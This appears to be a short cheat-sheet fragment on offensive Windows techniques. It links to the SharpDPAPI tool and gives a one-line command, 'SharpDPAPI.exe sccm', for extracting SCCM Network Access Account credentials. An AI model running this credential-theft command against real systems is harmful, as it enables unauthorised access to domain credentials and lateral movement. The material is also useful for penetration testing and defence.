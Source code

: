 ### Source
https://github.com/GhostPack/SharpDPAPI

### Extract credentials of NNA (SCCM)
```
SharpDPAPI.exe sccm
```


